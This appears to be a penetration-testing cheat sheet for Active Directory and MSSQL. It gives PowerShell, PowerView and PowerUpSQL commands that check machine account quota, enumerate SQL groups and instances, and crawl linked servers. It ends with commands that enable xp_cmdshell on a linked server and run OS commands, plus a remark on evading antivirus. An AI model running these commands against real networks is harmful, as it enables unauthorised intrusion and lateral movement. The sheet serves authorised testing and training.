 

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps" %}

### Machine Account Quota

{% code overflow="wrap" %}
```powershell
$Domain = "$env:userdnsdomain"
$LDAP = "DC=" + $Domain.Split(".")
$LDAP = $LDAP -replace " ", ",DC="
(Get-DomainObject -Identity $LDAP -Properties ms-DS-MachineAccountQuota) | Select-Object -ExpandProperty ms-DS-MachineAccountQuota
```
{% endcode %}

### MSSQL Enumeration

{% code overflow="wrap" %}
```powershell
# Dsicover SQL related groups
Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
```
{% endcode %}

#### PowerUpSQL

```powershell
# Discovery (SPN Scanning)
Get-SQLInstanceDomain

# Discovery (Broadcast Domain)
Get-SqlInstanceBroadcast

# Discovery (Broadcast Domain)
Get-SqlInstanceScanUDP
Get-SqlInstanceScanUDPThreaded

# Check Accessibility
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose

#Gather Information
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose

# Search for database links to remote servers
Get-SQLServerLink -Instance <Instance> -Verbose
Get-SQLServerLinkCrawl -Instance <Instance> -Verbose

# Where instance user matches "sa"
Get-SQLServerLinkCrawl -Instance <Instance> | Where-Object {$_.User -match 'sa'}

# Execute commands ( If xp_cmdshell or RPC out is set to enabled)
# If AV is enabled run cradled scripts with functions inline with the script
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "<Instance>"
Get-SQLServerLinkCrawl -Instance <Instance> "exec master..xp_cmdshell 'whoami'" -Query

# Scan for misconfigurations and vulnerabilities
Invoke-SQLAudit -Verbose -Instance <Server>
```
